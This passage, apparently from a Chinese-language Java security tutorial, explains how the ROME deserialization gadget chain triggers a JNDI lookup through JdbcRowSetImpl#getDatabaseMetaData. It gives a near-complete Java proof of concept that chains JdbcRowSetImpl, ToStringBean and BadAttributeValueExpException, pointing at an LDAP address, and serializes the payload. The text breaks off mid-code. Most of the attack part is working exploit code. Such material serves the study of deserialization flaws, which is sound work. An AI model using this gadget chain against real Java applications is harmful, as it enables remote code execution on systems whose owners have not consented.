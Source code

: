 ```java
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

fastjson那节利用的是`JdbcRowSetImpl#setAutoCommit`来进行jndi注入，但ROME链是触发getter方法。

实际上在`JdbcRowSetImpl`类里搜索`this.connect()`，还存在一个方法`getDatabaseMetaData`

```java
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            }
            // ....
        }
}
```

`getDataSourceName`是在`JdbcRowSetImpl`父类`BaseRowSet`中定义的，我们就不能用`getDeclaredField`来获取了。`JdbcRowSetImpl#setDataSourceName`可以直接设置值。

```java
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:8099/aaa");

        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        setFieldValue(badAttributeValueExpException, "val", bean);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.close();
```